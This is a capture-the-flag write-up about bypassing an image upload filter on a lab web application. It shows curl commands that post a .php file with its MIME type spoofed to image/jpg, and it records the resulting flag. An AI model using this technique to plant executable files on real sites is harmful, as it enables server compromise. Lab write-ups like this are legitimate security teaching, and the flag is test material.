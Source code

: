  # Upload bypass
 
 In ?page=upload page we are asket to upload an image so lets try to upload a malicious file first i tried a file .php and got this response
 
 > Your image was not uploaded.

then I tried next .php.jpg the response was

> /tmp/file.php.jpg succesfully uploaded.

But no flag so there is another way to do it lets try with curl 

> -X to specify the method type in our case its POST

> -F specify data to send (files) example email=blabla@blabla.bla the email is the name of the input

In our case there is 2 input the first one is uploaded that contain the data then Upload to submit

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php" -F Upload=Upload http://ipaddress/?page=upload

We got the same response now lets try to change the mime type of the file

> curl -i -X POST -F "uploaded=@/Users/oel-ouar/Desktop/file.php;type=image/jpg" -F Upload=Upload http://10.12.177.243/?page=upload

Worked !

> <h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2>
